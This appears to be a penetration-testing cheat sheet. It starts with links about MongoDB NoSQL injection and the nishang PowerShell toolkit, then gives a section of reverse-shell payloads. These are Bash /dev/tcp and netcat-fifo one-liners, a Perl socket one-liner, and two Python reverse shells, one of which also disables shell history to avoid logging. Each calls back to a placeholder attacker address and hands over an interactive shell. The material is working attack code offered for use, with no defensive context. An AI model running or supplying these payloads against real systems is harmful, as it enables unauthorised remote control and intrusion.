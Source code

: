 MongoDB 

https://security.stackexchange.com/questions/83231/mongodb-nosql-injection-in-python-code

 https://security.stackexchange.com/questions/129121/help-injecting-a-mongodb-used-by-a-python-web-app 

https://security.stackexchange.com/questions/231154/shellcode-in-mongodb-python-code

#### PowerShell

https://github.com/samratashok/nishang

## ReversShell

### Bash

```bash
bash -i >& /dev/tcp/<ip>/8080 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> 1234 >/tmp/f
```

### Perl

```perl
perl -e 'use Socket;$i="<IP>";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python1

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Pyrhon2

```python
import os
import pty
import socket

lhost = '<IP>'
lport = 4444

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((lhost, lport))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.putenv('HISTFILE','/dev/null')
pty.spawn('/bin/bash')
s.close()
```

